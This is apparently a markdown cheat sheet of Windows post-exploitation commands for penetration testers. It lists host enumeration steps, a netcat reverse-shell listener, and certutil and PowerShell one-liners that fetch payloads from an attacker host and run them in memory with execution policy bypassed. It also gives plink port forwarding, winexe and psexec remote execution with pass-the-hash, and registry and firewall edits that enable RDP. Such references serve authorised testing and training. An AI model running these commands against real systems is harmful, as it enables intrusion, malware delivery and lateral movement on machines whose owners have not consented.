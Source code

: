 ```yaml
---
title: Windows Commands 
---
```


## Reverse Shell

https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

nc -lvp 4444

## Windows Commands

Find installed patches, architecture, OS version
```cmd
systeminfo
```
Machine name
```cmd
hostname
```
What is my username?
```cmd
whoami
```
What users/localgroups are on the machine?
```cmd
net users
net localgroups
```
More info about a specific user. Check if user has privileges
```cmd
net user <user1>
```
User privilege
```cmd
whoami /priv
```
Disk Drive
```cmd
wmic logicaldisk get caption,description,providername`
```
Download file in the target machine
```cmd
certutil -urlcache -f http://[attackerIp]/payload.exe payload.exe
```
File and directory permission
```cmd
cacls /Desktop/test.txt
accesschk.exe -qwsu "<user>" "<path>"
accesschk.exe -qwsu "Users" *
```
wmic service filter
```cmd
wmic service where "name= 'OpenSSHd'" get name,pathname,status
```
List of Service
```cmd
wmic service get Caption,StartName,State,pathname
```
List of Process
```cmd
wmic process get ProcessID,ExecutablePath
```
Network
```cmd
ipconfig /all
route print
arp -A
```
Port forward & connect form linux to SMB 
```cmd
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```
```cmd
winexe -U [user]%[password] //[IP] "cmd.exe"
```
> Note: in ssh_config uncomment PermitRootLogin yes

Firewall Configuration
```cmd
netsh firewall show state
netsh firewall show config
```
Evarioment Variable
```cmd
set
```
How well patched is the system?
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
Loading Powershell scripts directly in memory
```cmd
powershell.exe -ep Bypass -c "IEX ((new-object net.webclient).downloadstring('http://10.0.1.14:80/shell.ps1'))"
```
Downlaod file with Powershell 
```cmd
powershell.exe -ep Bypass -c iex ((New-Object System.Net.WebClient).DownloadFile("https://attacker/payload.exe", "C:\Users\user1\payload.exe"))
```
Information about process
```cmd
tasklist /v
```
Run a command as another user
```cmd
runas /user:<localmachinename>\administrator cmd
```
Process info
```cmd
wmic process get Caption,Commandline,Processid
```
Service info
```cmd
wmic service get name,status,startname,pathname
```
Process Owner 
```cmd
tasklist /V /FI "IMAGENAME eq explorer.exe"
wmic process where "name='taskeng.exe'" call GetOwner
```
Process List 
```cmd
powershell.exe Get-Process  | Select-Object Id,Name,Path
```
Current Connection
```cmd
netstat -lpno
```
Start and stop a service
```cmd
net start/stop servicename
```
Installed applications
```cmd
psinfo.exe -s
```
UAC is enable?
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Content of a file
```cmd
more file.txt
```
RDP from Kali
```cmd
rdesktop -u user -p password <IP> -g 95% 
```
Enable rdp
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
Psexec

Password
```cmd
python3 psexec.py user:password@<ip>
```
```cmd
python3 psexec.py -hashes LMHASH:NTHASH user@<ip>
```
